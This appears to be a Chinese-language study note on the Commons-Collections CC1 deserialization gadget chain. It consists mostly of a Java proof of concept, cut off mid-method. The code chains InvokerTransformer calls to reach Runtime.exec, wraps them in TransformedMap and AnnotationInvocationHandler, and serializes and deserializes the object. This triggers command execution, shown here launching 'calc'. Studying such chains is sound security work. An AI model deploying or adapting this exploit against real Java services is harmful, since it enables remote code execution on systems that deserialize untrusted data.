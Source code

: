 ## 调用链

![image-20250927161552059](Commons-Collections%E7%AF%8701-CC1%E9%93%BE/image-20250927161552059.png)

## 最终代码

```java
package com.test01;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,chainedTransformer);



        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor =c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("test.txt");

        }


    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
```